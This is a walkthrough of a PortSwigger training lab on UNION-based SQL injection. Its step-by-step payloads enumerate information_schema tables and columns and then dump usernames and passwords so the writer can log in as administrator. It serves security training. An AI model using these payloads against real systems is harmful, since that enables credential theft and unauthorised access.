 # SQL injection attack, listing the database contents on non-Oracle databases

## Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so it is possible to use a UNION attack to retrieve data from other tables.

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```text
'+UNION+SELECT+'abc','def'--
```
    
3. Use the following payload to retrieve the list of tables in the database:

```text
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
    
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```text
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_okfnmf'--
```
    
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```text
'+UNION+SELECT+username_uoclxg,+password_slibfj+FROM+users_okfnmf--
```
    
8. Find the password for the administrator user, and use it to log in.

![SQLi](../../_static/images/sqli11.png)

## Exploitability

The application has a login function, and the database contains a table that holds usernames and passwords. An attacker needs to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users, and log in to the site as `administrator`.
